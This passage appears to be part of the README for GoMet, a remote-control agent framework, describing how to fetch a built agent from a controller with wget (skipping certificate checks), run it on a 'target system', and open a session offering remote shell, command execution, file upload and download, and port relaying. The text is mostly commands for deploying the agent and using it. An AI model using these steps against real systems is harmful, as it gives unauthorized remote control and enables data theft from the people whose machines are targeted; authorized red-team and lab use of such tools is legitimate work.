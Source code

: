 On the target system download an agent for the corresponding OS and Architecture

```
wget https://<controller>:8888/khRoKbh3AZSHbix/agent/darwin/amd64 --no-check-certificate -O agent
````

The controller automatically builds an agent with the right information.

**Note**: 
"khRoKbh3AZSHbix" is a random magic generated by the controller, type "info" in the GoMet CLI to know it.
In this use-case you have to add --no-check-certificate option because the default TLS certificate is auto-signed.

**Available OS** (see Golang GOOS): 

    linux
    darwin
    windows
    solaris
    ...
    
**Available Architectures** (see Golang GOARCH):

    386
    amd64
    arm
    arm64
    ...

Launch the agent
```
chmod +x agent
./agent
```

In GoMet CLI we can see the new session created
```
server > New session 1 - <agent_hostname> - <agent_IP>:<agent_port> - darwin/amd64
```

Interact with a session
------------------------

```
server > sessions open 1
session 1 > help

Commands:
  cat           Print a file
  clear         clear the screen
  close         Close session
  connect       Connect a local port to a remote Address
  download      Download a file
  execute       Execute a command
  exit          Back to server
  getuid        Get user Id
  help          display help
  jobs          List jobs
  listen        Connect a remote port to a local Address
  ls            List files
  netstat       List connections
  ps            List processes
  pwd           Get current directory
  relay         Relay listen
  shell         Interactive remote shell
  streams       List streams
  upload        Upload a file


```